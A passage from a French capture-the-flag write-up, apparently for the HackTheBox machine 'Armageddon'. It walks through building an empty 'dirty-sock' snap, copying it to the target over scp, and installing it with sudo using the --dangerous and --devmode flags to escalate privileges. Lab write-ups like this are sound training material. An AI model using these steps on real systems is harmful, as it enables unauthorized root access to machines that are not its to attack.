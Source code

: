 Maintenant, nous allons éditer le fichier `snapcraft.yaml` avec les informations suivantes.

```yaml
name: dirty-sock
base: core
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
```

Nous devons maintenant `build` notre paquet avec la commande `snapcraft`

> snapcraft

Nous voilà maintenant avec un fichier `.snap` que nous pouvons exécuter sur la machine cible.

> ls -l

```
ls -ll
total 16K
-rw-r--r-- 1 ethost ethost 4,0K  4 avril 19:18 dirty-sock_0.1_amd64.snap

```

Nous allons upload le fichier sur la machine cible avec la commande `scp`.

> scp dirty-sock_0.1_amd64.snap brucetherealadmin@10.10.10.233:.

![Screenshot_20210405_202759](Armageddon.assets/Screenshot_20210405_202759.png)

Si nous voulons exécuter le .snap il va nous falloir rajouter quelques options sinon nous aurons plusieurs erreurs.

> sudo snap install dirty-sock_0.1_amd64.snap 

```
[brucetherealadmin@armageddon ~]$ sudo snap install dirty-sock_0.1_amd64.snap 
error: cannot find signatures with metadata for snap "dirty-sock_0.1_amd64.snap"
```

Nous allons d'abord utiliser l'option `dangerous` pour forcer l'installation de ce fichier, ainsi que l'option `--devmode`, car notre paquet utilise ce mode.

> sudo snap install dirty-sock_0.1_amd64.snap --dangerous --devmode

```
[brucetherealadmin@armageddon ~]$ sudo snap install dirty-sock_0.1_amd64.snap --dangerous --devmode
dirty-sock 0.1 installed
```
